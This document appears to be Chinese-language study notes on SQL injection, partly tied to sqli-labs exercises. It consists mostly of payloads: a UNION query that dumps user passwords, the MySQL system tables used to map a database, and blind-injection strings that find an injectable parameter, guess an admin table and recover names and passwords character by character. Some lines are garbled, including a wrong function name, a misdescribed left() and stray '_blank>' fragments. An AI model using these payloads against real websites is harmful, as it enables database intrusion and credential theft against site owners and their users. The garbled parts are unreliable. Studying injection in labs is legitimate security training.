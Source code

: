 ```
-1' union select 1,group_concat(password),3 from security.users --+ 
group_concat(),concat_ws()和concat()三个函数可以相互替换的。

例题	less-1、2、3、4、11、12
```



#### MYSQL重要系统表

```
MySQL注入中要使用到的关键系统表和对应的关键字段
information_schema.SCHEMATA SCHEMA_NAME // MySQL的全部数据库名
information_schema.TABLES TABLE_NAME // MySQL的全部数据表名 TABLE_SCHEMA // 数据表所属的数据库名
information_schema.COLUMNS COLUMN_NAME // MySQL的全部字段名 TABLE_NAME // 字段所属的数据表名 TABLE_SCHEMA // 字段所属的数据库
```



#### 函数

```
length(xx) 返回字符xx长度
id(tiaojian,3,4) tiaojian进行判断，正确则返回3，否则4
left(str,num)  反馈str第num个的字符
```



```
##常用语句

1.判断有无注入点 
; and 1=1 and 1=2


2.猜表一般的表的名称无非是admin adminuser user pass password 等.. 
and 0<>(select count(*) from *) 
and 0<>(select count(*) from admin) ---判断是否存在admin这张表

3.猜帐号数目 如果遇到0< 返回正确页面 1<返回错误页面说明帐号数目就是1个 
and 0<(select count(*) from admin) 
and 1<(select count(*) from admin)

4.猜解字段名称 在len( ) 括号里面加上我们想到的字段名称. 
and 1=(select count(*) from admin where len(*)>0)-- 
and 1=(select count(*) from admin where len(用户字段名称name)>0) 
and 1=(select count(*) from admin where len(_blank>密码字段名称password)>0)

5.猜解各个字段的长度 猜解长度就是把>0变换 直到返回正确页面为止 
and 1=(select count(*) from admin where len(*)>0) 
and 1=(select count(*) from admin where len(name)>6) 错误 
and 1=(select count(*) from admin where len(name)>5) 正确 长度是6 
and 1=(select count(*) from admin where len(name)=6) 正确

and 1=(select count(*) from admin where len(password)>11) 正确 
and 1=(select count(*) from admin where len(password)>12) 错误 长度是12 
and 1=(select count(*) from admin where len(password)=12) 正确

6.猜解字符 
and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位 
and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位 
就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了 
and 1=(select top 1 count(*) from Admin where Asc(mid(pass,5,1))=51) -- 
这个查询语句可以猜解中文的用户和_blank>密码.只要把后面的数字换成中文的ASSIC码就OK.最后把结果再转换成字符.

group by users.id having 1=1-- 
```